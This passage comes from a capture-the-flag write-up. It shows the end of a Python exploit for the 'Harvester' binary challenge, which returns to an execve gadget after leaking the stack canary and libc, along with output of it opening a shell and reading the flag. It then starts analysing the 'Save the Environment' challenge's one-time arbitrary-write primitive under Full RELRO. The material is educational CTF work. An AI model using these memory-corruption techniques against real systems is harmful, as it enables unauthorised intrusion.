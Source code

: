 ```
buf += p64(execve_gadget)                       # return to execve() gadget
r.sendline(buf)

print("Getting shell...")
r.interactive()
```

Here it is in action popping a shell on the server: 

```
► ./sploit.py SILENT=1
leaked stack canary: 0x32e62f8c8bdc5e00
leaked libc address: 0x7f7ea9cfbbf7
libc base: 0x7f7ea9cda000
Getting shell...

You try to find its weakness, but it seems invincible..
Looking around, you see something inside a bush.
[+] You found 1 \\x9f\xa5\xa7!

You also notice that if the Harvester eats too many pies, it falls asleep.
Do you want to feed it?
>
This did not work as planned..
$ ls
flag.txt  harvester  libc.so.6
$ cat flag.txt
CHTB{h4rv35t3r_15_ju5t_4_b1g_c4n4ry}
```

## Save the Environment

This binary challenge includes a copy of `libc.so.6` and is compiled with Full Relro, stack canary, and NX. 

I did not complete this challenge during the CTFs allotted time frame, but completed it the day after. When executed, the binary prompts us for two options; plant a tree, or recycle. After analyzing the binary in Cutter, we can determine the following: 

### Plant

The `plant()` function prompts the user for a type of tree to plant, and then a location to plant the tree. If this sounds familiar, it should, because the Minefield challenge used the same thing. This is essentially a write primitive that allows us to write to any writable memory address. The difference here is that the binary is compiled with Full RELRO so we can't write to the GOT or `.fini_array`. We can only do this once. After `plant()` is called, the binary sets `rec_count` to 0x16. This causes the binary to exit when `check_fun()` is called and `rec_count` is greater than 0xb: 

```
    if (rec_count >= 0) {
        if (rec_count <= 0xb) {
            goto label_0;
        }
    }
    rsi = "green";
    rdi = "We have plenty of this already.\nThanks for your help!\n";
    eax = 0;
    color ();
    exit (1);
```
